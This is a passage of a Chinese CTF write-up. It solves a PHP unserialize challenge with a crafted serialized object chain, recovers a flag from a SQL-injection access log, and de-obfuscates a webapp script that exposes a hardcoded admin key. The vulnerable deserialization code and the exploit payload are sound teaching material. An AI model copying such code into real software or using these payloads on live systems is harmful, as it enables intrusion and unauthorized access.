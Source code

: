 ```php
    public function get_flag()
    {
        echo "flag{****************}";
    }
}
$a=isset($_GET['go'])?$_GET['go']:"";
$b=@unserialize($a);
if ($a&&!$b) {
    echo "unserilize('".$a ."')  失败";
}
```

根据观察，可以发现类从上到下类似链式调用，于是补充代码如下：

![](./Screenshot_20190928_112954.png)

得到输出结果：

> O:5:"Start":2:{s:1:"a";O:5:"Func1":2:{s:1:"a";O:5:"Func2":2:{s:1:"a";O:5:"Func3":2:{s:1:"a";O:4:"Flag":0:{}s:1:"b";N;}s:1:"b";N;}s:1:"b";N;}s:1:"b";N;}flag{****************}

![](./Screenshot_20190928_200807.png)

### log

首先观察 access.log 文件本身，我们可以发现其中充斥这很多 URI 编码后的字符串。我们先将其过一遍 `decodeURIComponent`，再去除一些无用的内容，诸如 `UserAgent`。

再观察，可以发现这是一次 SQL 注入的攻击日志，攻击者通过各位比较确认了 flag。于是我们可以利用攻击者确认 flag 的日志获得 flag。搜索 `!=`：

![](./Screenshot_20190928_201246.png)

可以看到，这些数字已经是我们想要的 `f`，`l`，`a`了。最后将其拼接起来即可：

![](./photo_2019-09-28_13-44-31.jpg)

### 可靠的WebApp

通过观察可以发现核心在于 `main.min.js`：

![](./Screenshot_20190928_201501.png)

打开文件，发现文件经过了混淆。我们使用 `JSNice` 简单对内容进行反混淆：

![](./Screenshot_20190928_201700.png)

再对所有用到 `_0x76ef` 的项进行整理，最后得到相对反混淆后的结果。在这个过程中，我们观察到这个对象：

```js
this.APIModels = {
  authorize: {
    model: "authorize"
  },
  userInfo: {
    model: "userInfo"
  },
  buyFlag: {
    model: "buyFlag"
  },
  adminAddCoin: {
    model: "adminAddCoin",
    key: "Admin123321.",
    count: 0
  }
};
```
